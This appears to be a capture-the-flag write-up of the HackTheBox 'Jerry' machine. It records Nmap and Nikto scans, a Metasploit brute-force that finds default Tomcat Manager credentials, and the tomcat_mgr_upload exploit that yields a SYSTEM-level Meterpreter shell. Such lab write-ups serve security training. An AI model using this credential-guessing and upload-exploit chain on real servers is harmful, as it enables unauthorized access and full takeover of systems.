

# Jerry 10.10.10.95 - Windows

 - __User__: 005 - 1st Attempt
 - __Root__: 005 - 1st Attempt

## Initial Attempt, 05/05/2020


```shell
Nmap scan report for 10.10.10.95
Host is up (0.031s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

 - Browser to 8080 shows default Apache Tomcat page, 7.0.88
 - Nmap says http not https
 - `http://10.10.10.95:8080/docs/RELEASE-NOTES.txt` has a list of potential search strings

A metasploit scanner landed on some weak credentials for the default install:

```shell
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
.
snip
.
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
.
snip
.
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Manger web panel provided info:

 - JVM `1.8.0_171-b11`
 - Windows Server 2012 R2 6.3
 - amd64
 - There appears to be a `/host-manager/html` as well as the `/manager/html` we accessed... our creds don't work there.

Retrying credential scan on new url `/host-manager/html`, says that tomcat/s3cret still works but we get 403's.




Ran a nikto scan:

```shell
^Cthoth@kali:~/Projects/htb-notes/machines/Jerry$ nikto -host 10.10.10.95 -port 8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2020-05-05 17:16:30 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2020-05-05 17:21:12 (GMT-4) (282 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Ran an exploit using the default credentials:

```shell
msf5 exploit(multi/http/tomcat_mgr_upload) > options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.95      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080             yes       The target port (TCP)

meterpreter > getuid
Server username: JERRY$
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
```

Got userspace. I'm not sure why, but dropping into `shell` (due to having some problems with meterpreter accessing certain directories...) gave me this:

```powershell
C:\Users>whoami
whoami
nt authority\system
```

From there I was able to find `2 for the price of 1.txt`